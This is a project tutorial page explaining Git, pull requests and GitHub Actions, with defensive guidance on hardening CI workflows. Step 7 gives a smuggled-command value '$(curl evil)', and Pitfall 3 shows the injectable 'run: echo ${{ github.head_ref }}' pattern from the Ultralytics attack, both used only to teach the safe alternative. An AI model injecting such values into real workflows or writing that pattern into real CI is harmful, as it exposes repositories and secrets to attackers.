

# Git and GitHub Actions basics

> **Curriculum slug:** `git-and-github-actions-basics` · **Written in:** M0 phase 1 · **Python version:** any
> **Prerequisites:** none
> **Time to read:** ~25 minutes

## 1. The one-sentence version

**Git** records the history of the project as a chain of snapshots called *commits*; **GitHub** hosts that history and lets you propose changes as *pull requests*; and **GitHub Actions** is GitHub's robot that runs our checks (lint, types, tests on 8 combinations of OS and Python) every time someone pushes.

## 2. Why you should care

- Every milestone phase arrives as one **pull request** (D-009), and reviewing PRs is how you'll follow the work. Knowing what a branch, a commit and a PR are lets you read them confidently.
- **CI** (continuous integration) is the safety net: `main` must always be green. If a change breaks Windows on Python 3.13, CI tells us before it's merged.
- CI configuration is **code that runs with privileges**. In the Ultralytics attack (research §2.11), a carelessly written workflow let an attacker run commands by naming a git *branch* `$(…)`. Milestone C7 builds a tool to find such mistakes, and our own `ci.yml` follows the safe patterns from day one.

## 3. The idea, step by step

### Step 1: commits are snapshots with parents

A **commit** is a snapshot of every file, plus a message, an author and a pointer to its **parent** commit. Each commit is identified by a 40-character hexadecimal **SHA** (a cryptographic hash of its contents and history):

```pycon
>>> sha = "3d3c42e5aac5ba805825da76410c181273ba90b1"
>>> len(sha)
40
>>> all(ch in "0123456789abcdef" for ch in sha)
True
```

Because the SHA is computed from the contents, **a SHA can't be moved to point at different code**. Remember that, because it matters in step 6.

### Step 2: branches are movable labels

A **branch** is a name that points at a commit and moves forward as you commit. `main` is the shared, always-working branch. Each phase of work happens on its own branch, named `<milestone>/<topic>` (D-009), for example `m0/skeleton`:

```text
main:        A───B
                  \
m0/skeleton:       C───D       ← work in progress, CI runs here
```

### Step 3: pull requests and squash merges

A **pull request** (PR) asks "please merge branch `m0/skeleton` into `main`". GitHub shows the diff, runs CI, and lets you comment. We **squash-merge**: all of the branch's commits become a single commit on `main`, so `main`'s history reads as one entry per phase.

### Step 4: commit messages follow a pattern

We use [Conventional Commits](https://www.conventionalcommits.org/): `type(scope): summary`. The type says what kind of change it is (`feat`, `fix`, `docs`, `test`, `ci`, `chore`, `refactor`):

```pycon
>>> import re
>>> pattern = re.compile(r"^(feat|fix|docs|test|ci|chore|refactor)(\([a-z0-9-]+\))?: .+")
>>> bool(pattern.match("feat(cli): add --version"))
True
>>> bool(pattern.match("added stuff"))
False
```

### Step 5: what a workflow is

A **workflow** is a YAML file in `.github/workflows/`. GitHub reads it and runs it when its **trigger** (`on:`) happens. Our [`ci.yml`](../../../.github/workflows/ci.yml) in plain words:

| YAML | Meaning |
|---|---|
| `on: push (main)` and `pull_request` | Run on every push to `main` and on every PR |
| `permissions: contents: read` | The automatic token (`GITHUB_TOKEN`) may only **read** the repo, never write |
| `concurrency: … cancel-in-progress` | A newer push cancels the older, still-running CI for the same branch |
| `jobs:` | Independent units of work. Ours: `lint`, `types`, `docs`, `test` |
| `runs-on: ubuntu-latest` | Each job runs on a fresh virtual machine called a **runner** |
| `steps:` | Commands run in order inside the job. `uses:` runs a published **action**, `run:` runs a shell command |
| `strategy: matrix:` | Run the same job once per combination |

The test job's matrix is 2 operating systems × 4 Pythons:

```pycon
>>> oses = ["windows-latest", "ubuntu-latest"]
>>> pythons = ["3.13", "3.14", "3.15", "3.15t"]
>>> cells = [(o, p) for o in oses for p in pythons]
>>> len(cells)
8
>>> cells[0]
('windows-latest', '3.13')
```

### Step 6: why actions are pinned to SHAs

`uses: actions/checkout@v7` means "whatever commit the tag `v7` points at **today**". Tags can be moved. If an attacker took over the action's repository, they could re-point `v7` at malicious code and every workflow using it would run that code. A full commit SHA can't be re-pointed (step 1), so we write:

```yaml
- uses: actions/checkout@3d3c42e5aac5ba805825da76410c181273ba90b1 # v7.0.1
```

The comment keeps it readable. The SHAs are looked up with `gh api` when the file is written, and **never guessed** (M0 §6.21). C7's rule CRT705 flags any `uses:` that isn't pinned like this.

### Step 7: the other hardening rules in our workflow

- `persist-credentials: false` on checkout: don't leave the token in `.git/config` where later steps could read it.
- No `pull_request_target` trigger: that trigger runs with the *base* repository's secrets even for PRs from strangers' forks, and it was the door in the Ultralytics attack.
- Values reach shell commands only through `env:` (`run: uv sync --python "$PYTHON"`), never by pasting `${{ … }}` into the script. GitHub substitutes `${{ … }}` **as text before the shell runs**, so a value containing `$(curl evil)` would become part of the command. Through `env:`, it stays a variable's *value*.

## 4. How it really works (under the hood)



A step "fails" when its command exits with a non-zero **exit code**. That's why Cartographer's exit codes are specified so carefully (spec 03 §3): CI systems understand nothing else.

## 5. Where Cartographer uses this

| File / function | How it's used |
|---|---|
| [`.github/workflows/ci.yml`](../../../.github/workflows/ci.yml) | Lint, types, docs and the 8-cell test matrix, hardened as in steps 6–7 |
| [`.gitattributes`](../../../.gitattributes) | Store text with `\n` line endings on every OS, so outputs compare equal on Windows and Linux |
| [`.gitignore`](../../../.gitignore) | Keep caches and `.venv/` out of git. Patterns like `/build/` are anchored to the root so fixture projects can contain `build/` folders |

## 6. Pitfalls

### Pitfall 1: line endings
Windows writes `\r\n`, Linux writes `\n`. Without `.gitattributes`, a file can change bytes when it moves between machines, and tests that compare output byte-for-byte fail only on one OS. Our `.gitattributes` says `* text=auto eol=lf`, and this repo has `core.autocrlf=false`.

### Pitfall 2: "works locally, fails in CI"
CI starts from a completely clean machine. Anything not in the repo (a file you forgot to commit, a tool you installed globally) doesn't exist there. Pushing and watching CI is the honest test.

### Pitfall 3: interpolating untrusted text into `run:`
`run: echo ${{ github.head_ref }}` looks harmless. The branch name is chosen by whoever opens the PR, and GitHub pastes it into the script before the shell runs. That's the Ultralytics bug. Pass it through `env:` instead.

## 7. Version notes

Not applicable: git and Actions don't depend on the Python version. Action versions do change, so SHAs get updated deliberately, in their own PR.

## 8. Exercises

1. In `ci.yml`, find the line that limits what the automatic token can do. What could a malicious test do if that line said `contents: write`?
   <details><summary>Answer</summary>

   `permissions: contents: read`. With `write`, code running in the job (for example a compromised dev dependency) could push commits or tags to the repository using the job's token.
   </details>

2. Why does a pushed tag like `v7` give weaker guarantees than a SHA?
   <details><summary>Answer</summary>

   A tag is a movable name. Its owner (or an attacker who takes over the repo) can point it at a different commit later. A SHA is derived from the content itself, so different content means a different SHA.
   </details>

3. The test matrix has 8 cells. If each takes about 3 minutes and GitHub runs them in parallel, roughly how long does CI take? And if they ran one after another?
   <details><summary>Answer</summary>

   About 3 minutes in parallel (plus queueing), versus about 24 minutes one after another. Parallel jobs are why matrices are affordable.
   </details>

## 9. Further reading

- Official docs: [Pro Git book (free)](https://git-scm.com/book/en/v2) · [GitHub Actions: workflow syntax](https://docs.github.com/en/actions/reference/workflows-and-actions/workflow-syntax) · [Security hardening for GitHub Actions](https://docs.github.com/en/actions/security-for-github-actions/security-guides/security-hardening-for-github-actions)
- The incident: [Woodruff: Ultralytics injection analysis](https://blog.yossarian.net/2024/12/06/zizmor-ultralytics-injection)
- Conventions: [Conventional Commits](https://www.conventionalcommits.org/)
